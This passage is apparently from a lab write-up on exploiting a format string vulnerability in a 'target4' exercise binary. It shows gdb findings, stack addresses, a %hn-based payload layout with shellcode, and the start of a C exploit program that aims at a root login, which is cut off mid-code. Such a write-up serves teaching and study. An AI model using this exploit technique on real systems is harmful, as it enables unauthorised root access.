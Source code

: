 We then run _gdb_ in the usual way, catching the exec and inserting a breakpoint after the execution of the `snprintf()` in the `foo` function.
By printing the address and value of the buf variable, we can notice that:
1) The content of buf is "AAAA", followed by 24 zeros and `41414141`: from this, we can infer that fourth parameter read from the stack corresponds to the first word of the `buf` variable (the previous 3 parameters were zeros).
2) The `buf` variable is located at the address `0xbffffc98`
3) As a consequence, being 404 bytes beyond the first byte of the `buf` variable, the return address is located at the address `0xbffffe2c`

Based on this, we can notice that it is easier to split the huge address in two parts, writing the higher and lower bytes separately using `%hn`. As a consequence, both a second address (`0xbffffe2e`, which is `0xbffffe2c` + 2, as we want the 2 MSB of the first address to become the 2 LSB of the second one) and an additional `%$dummy_numberx` parameter must be added, in order to "establish" the number of written bytes, thus deciding the value written by the second `%hn`. Finally, 4 random bytes of padding must be inserted between the two addresses, as the function will read them as the parameters corresponding to the `%$dummy_numberx` specifier.

Based on what has been previously stated, the following payload will have to be provided as an argument:

|   Byte indexes  |       0-3      |      4-7    |        8-11        |                    12-56                  |                     58-end                    |
| --------------- | -------------- | ----------- | ------------------ | ----------------------------------------- | --------------------------------------------- |
|    **Values**   |  `0xbffffe2c`  |     JUNK    |    `0xbffffe2e`    |                 shellcode                 |        `%64617x%x%x``%hn``"%50011x"``%hn`     |
| __Description__ | address of ret | dummy value | address of ret + 2 | address of the first byte is `0xbffffca4` | two couples of n_bytes - %hn to overwrite ret |


In order to understand the values we are using as dummies, we must note that we want to write:
1) `0xfca4` (decimal 64676) in the two LSB
2) `0xbfff` (decimal 49151) in the two MSB

At the beginning, we have written 57 bytes (addresses, junk-padding and shellcode). We must also read three values in order to have the next one being the address we put in the stack. As a result, only adding padding to one value: 64676 - 57 - 2 (%x counts as one byte) = 64617. The same reasoning can be done for the MSB.

With all of this in mind, the following code can be built to exploit the format string vulnerability, logging us in as root:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "target4"

int main(void)
{
  char *args[3];
  char *env[1];

  args[0] = TARGET;
  args[1] = (char*) malloc(80);

  if (args[1] == NULL) {
    fprintf(stderr, "Error in malloc.");
    return 1;
  }

  int i;
  char ret_location[] = "\x2c\xfe\xff\xbf";
  char ret_location2[] = "\x2e\xfe\xff\xbf";

  strcat(args[1], ret_location);
```